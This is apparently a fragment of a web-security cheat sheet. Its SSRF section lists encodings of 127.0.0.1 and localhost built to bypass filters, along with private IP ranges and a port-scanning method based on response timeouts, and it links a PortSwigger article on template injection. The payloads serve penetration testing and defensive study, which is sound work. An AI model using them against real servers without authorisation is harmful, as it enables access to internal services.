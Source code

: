 
http://blog.portswigger.net/2015/08/server-side-template-injection.html

# SSRF

## Bypass 127.0.0.1 

```
127.0.0.1
localhost
127.0.1
127.1
0.0.0.0
0.0
0

::1
::127.0.0.1
::ffff:127.0.0.1
::1%1

127.12.34.56 (127.0.0.1/8)
127.0.0.1.xip.io

http://2130706433 (decimal)
http://0x7f000001
http://017700000001
http://0x7f.0x0.0x0.0x1
http://0177.0.0.1
http://0177.01.01.01
http://0x7f.1
http://[::]

```

## Bypass using Ⓐ Ⓑ Ⓒ Ⓓ

- `http://ⓀⒶⒾⒷⓇⓄ.ⓉⓌ`
- `http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ`

## 内网IP

- `10.0.0.0/8`
- `172.16.0.0/12`
- `192.168.0.0/16`

## XSPA

- port scan
    - `127.0.0.1:80` => OK
    - `127.0.0.1:87` => Timeout
    - `127.0.0.1:9487` => Timeout
